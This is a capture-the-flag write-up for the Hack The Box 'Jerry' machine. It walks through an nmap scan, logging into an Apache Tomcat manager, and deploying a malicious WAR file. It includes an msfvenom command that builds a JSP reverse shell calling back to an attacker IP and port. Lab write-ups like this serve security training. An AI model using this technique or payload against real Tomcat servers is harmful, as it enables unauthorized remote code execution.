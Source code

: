 ![logo](/logo.png)

# [Jerry- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 30 Jun 2018 on HTB,Jerry created by [mrh4sh](https://app.hackthebox.com/users/2570).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *Tomcat
  *War
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn
```

###### Output 

![](/Windows/Windows-Easy/Jerry/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/jerry 10.10.10.95 -Pn                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-25 19:21 EAT
Nmap scan report for 10.10.10.95
Host is up (0.32s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.86 seconds
```

looking at the results  we find out that there are 1 ports open and its a `JSP engine`and its running an `Apache Tomcat`. 

port[8080]-  http

looking at the port 8080 we find a landing page [http://10.10.10.95:8080](http://10.10.10.95:8080) a find an apache configuration document 

![](/Windows/Windows-Easy/Jerry/Screenshots/browser.png)

I managed App which directs to `manager/html` provides us with password and username

![](/Windows/Windows-Easy/Jerry/Screenshots/manager.png)

and am in the tomcat so let me find where to abuse tomcat from like how we did to ![Kotarak](/Linux/Linux-Hard/Kotarak/Kotarak.md)


![](/Windows/Windows-Easy/Jerry/Screenshots/tomcat.png)

lets abuse the manger `war` depoly 

A Web Application Resource (WAR) file is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks, and since these can contain Java code, it’s a great target for gaining execution.

![](/Windows/Windows-Easy/Jerry/Screenshots/war.png)

```sh
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1337 -f war > leshack.war
```

![](/Windows/Windows-Easy/Jerry/Screenshots/msfvenom.png)

Then I click the file from here 

![](/Windows/Windows-Easy/Jerry/Screenshots/tomcatexploit.png)

and we get the shell

![](/Windows/Windows-Easy/Jerry/Screenshots/shell.png)

and since we are root we can get the the user and root flag

![](/Windows/Windows-Easy/Jerry/Screenshots/whoami.png)

we can navigate to `Desktop`

![](/Windows/Windows-Easy/Jerry/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------

